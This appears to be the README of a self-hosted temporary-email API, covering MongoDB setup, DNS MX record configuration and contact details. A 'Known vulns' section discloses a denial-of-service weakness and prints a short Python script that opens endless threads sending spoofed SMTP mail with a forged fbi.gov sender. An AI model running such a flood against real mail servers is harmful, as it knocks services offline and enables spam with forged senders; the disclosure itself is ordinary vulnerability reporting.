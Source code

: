 ---------------------------------------
  
<br/>
<div align="center">
  <a href="https://github.com/femboy-party/tempmail-api">
    <img src="https://i.imgur.com/fJYAFil.png" alt="Logo" width="120" height="120">
  </a>
  </p>
</div>
  
---------------------------------------

### Setup
* Firstly create a mongodb account, and proceed to create a new project.
* Now create a new database.
* <img src="https://cdn.discordapp.com/attachments/901454647917694986/901454657812049990/unknown.png">
* Now goto the database overview and goto the collections tab.
* <img src="https://cdn.discordapp.com/attachments/901454647917694986/901454911882035201/unknown.png">
* Now create a new database / collection.
* <img src="https://cdn.discordapp.com/attachments/901454647917694986/901455049618751498/unknown.png">
* Now edit the following files and put your connection url inside.
```
API/database.py
SMTP/database.py
```
* All you have to do now is run main.py on your vps.

---------------------------------------

### Add domains
1. Open your domain management
<img src="https://cdn.discordapp.com/attachments/897456816949190689/898515103249473546/unknown.png">
2. Go to advanced dns
<img src="https://cdn.discordapp.com/attachments/897456816949190689/898515754641653760/unknown.png">
3. Scroll down until you see mail settings
<img src="https://cdn.discordapp.com/attachments/897456816949190689/898515920639651850/unknown.png">
4. Select MXE Record
<img src="https://cdn.discordapp.com/attachments/897456816949190689/898516078861369354/unknown.png">
5. Put <your vps ip> as the value
<img src="https://cdn.discordapp.com/attachments/897456816949190689/898516266401296384/unknown.png">
6. Save and done!

---------------------------------------

### Known vulns
* SMTP Connections, Spamming smtp connections and attempting to send an email will result in the api not responding until you stop trying to connect/send.
  ```py
  import smtplib
  import threading
  
  def send():
      message = """From: dropout <dropout@fbi.gov>
      To: admin <user@domain.com>
      Subject: SMTP Vuln

      Naughty, Naughty vuln
      """
      try:
          smtp = smtplib.SMTP("stmp.server.com")
          smtp.sendmail("dropout@fbi.gov", "user@domain.com", message)         
      except Exception:
          pass
  
  if __name__ == "__main__":
      while True:
          threading.Thread(target=send).start()
  ```

---------------------------------------

### Contact
bo@cia.contact
bo#0005
